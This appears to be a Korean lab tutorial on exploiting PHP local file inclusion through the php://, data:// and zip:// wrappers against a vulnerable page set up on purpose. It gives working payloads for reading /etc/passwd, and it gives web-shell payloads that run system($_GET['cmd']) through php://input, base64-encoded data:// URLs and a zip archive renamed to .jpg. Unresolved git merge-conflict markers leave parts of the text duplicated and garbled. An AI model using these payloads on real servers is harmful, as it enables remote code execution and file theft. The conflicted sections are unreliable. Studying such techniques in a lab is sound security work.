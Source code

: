 # PHP wrapper

php는 다양한 [wrappers](https://www.php.net/manual/en/wrappers.php)를 지원한다.

그 중 php, zip, data를 이용하여 공격해보자.

| wrapper   | description                   |
| :---      | :---                          |
| php://    | Accessing various I/O streams |
| data://   | Data (RFC 2397)               |
| zip://    | Compression Streams           |

# **INDEX**

<<<<<<< HEAD
**1. [환경 구성](#환경-구성)**

**2. [php](#php)**

 - [filter](#filter)

 - [input](#input)

**3. [data](#data)**

**4. [zip](#zip)**

=======
**1. [php://](#php%2F%2F)**
>>>>>>> 23c112e7940af19fb24e0f46cd1552a9ead6e5f3

# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4                       |
| php-zip       | 2:7.4+75                  |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```

<<<<<<< HEAD
# **php**
=======
# **php//**
>>>>>>> 23c112e7940af19fb24e0f46cd1552a9ead6e5f3

## **filter**

php://filter/resource="file name"을 통해 서버의 로컬 파일을 읽을 수 있다.

    http://192.168.0.58/index.php?page=php://filter/resource=/etc/passwd

파일의 출력 결과를 base64나 rot13으로 문자열을 변환하여 읽을 수 있다.

    http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd

    http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


취약한 페이지가 다음과 같다면 NULL(%00)을 붙혀서 php가 아닌 다른 파일을 읽을 수 있었지만,

```php
include $_GET['page']."php";
```

[php 5.3.4 Release](https://www.php.net/releases/5_3_4.php)부터는 NULL을 넣어도 우회할 수 없게 되었다.

## **input**

php://input을 이용하여 php 함수를 실행시킬 수 있으며, POST 방식으로 데이터를 넣어주어야 한다.

php://input을 사용하기 위해서는 php.ini의 allow_url_include가 On로 되어 있어야 한다.

    curl -X POST --data "<?php system(\$_GET['cmd']); ?>" "http://192.168.0.58/index.php?page=php://input&cmd=id"


# **data**

data wrapper를 사용하기 위해서는 php.ini의 allow_url_include가 On로 되어 있어야 한다.

data://text/plain,"문자열"을 통해 html문서를 출력할 수 있지만

php 함수를 통해 운영체제의 명령어를 실행시킬 수 있다.

    http://192.168.0.58/index.php?page=data://text/plain,<?php system($_GET['cmd']);?>&cmd=id

php 데이터를 base64로 인코딩하여 실행시킬 수도 있다.

    http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id

# **zip**

zip wrapper를 사용하기 위해서 추가적인 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install php-zip
```

패키지가 설치되었다면 php.ini에서 extension=zip.so가 활성화되어 있어야 한다.

<<<<<<< HEAD
zip wrapper로 압축파일 속 파일을 실행시킬 수 있는데, 그러기 위한 디렉토리 쓰기 권한이 있어야 한다.

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 주자.

```sh
root@ubuntu:~# chown www-data:www-data /var/www/html
```

압축파일에 넣을 php를 작성하자.

```php
<?php system($_GET['cmd']);?>
```

해당 파일을 압축하고 shell.php를 지워버리자.

```sh
root@ubuntu:/var/www/html# zip shell.zip shell.php
root@ubuntu:/var/www/html# rm -rf shell.php
```

이후 zip://"zip file name"#"file name"을 통해 zip안의 파일을 실행시킬 수 있다.

    http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php&cmd=id

파일의 확장자를 변경해도 상관없다.

```sh
root@ubuntu:/var/www/html# mv shell.zip shell.jpg
```

    http://192.168.0.58/index.php?page=zip://shell.jpg%23shell.php&cmd=id
=======
http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php
>>>>>>> 23c112e7940af19fb24e0f46cd1552a9ead6e5f3
